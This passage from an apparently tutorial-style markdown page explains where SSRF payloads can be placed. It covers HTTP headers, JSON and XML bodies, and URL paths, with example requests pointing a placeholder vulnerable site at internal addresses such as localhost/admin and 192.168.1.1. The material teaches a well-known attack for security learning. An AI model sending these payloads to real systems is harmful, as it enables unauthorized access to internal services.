 ### 3. In HTTP Headers

Some applications may use values from HTTP headers to construct server-side requests, making them potential places for SSRF payloads.

**Example HTTP Request:**
```
GET / HTTP/1.1
Host: vulnerable-website.com
X-Original-URL: http://internal-service.local/
```
In this example, the `X-Original-URL` header may be used by the server to make a request to the URL specified, potentially allowing an SSRF attack.

### 4. In JSON or XML Body

When the application accepts data in JSON or XML format, SSRF payloads can be placed inside the fields that are used for server-side requests.

**Example JSON HTTP Request:**
```
POST /api/fetch HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json
Content-Length: 52

{
    "url": "http://localhost/admin"
}
```
Here, the `url` field in the JSON payload is used to trigger an SSRF request to `http://localhost/admin`.

**Example XML HTTP Request:**
```
POST /api/fetch HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/xml
Content-Length: 85

<request>
    <url>http://127.0.0.1:80/</url>
</request>
```
In this case, the XML body contains an SSRF payload targeting an internal IP address.

### 5. In URL Path

SSRF payloads can also be placed directly in the URL path if the web application uses parts of the path to make server-side requests.

**Example HTTP Request:**
```
GET /proxy/http://192.168.1.1:8080/ HTTP/1.1
Host: vulnerable-website.com
```
The URL path `/proxy/http://192.168.1.1:8080/` is designed to trick the server into making a request to an internal service.
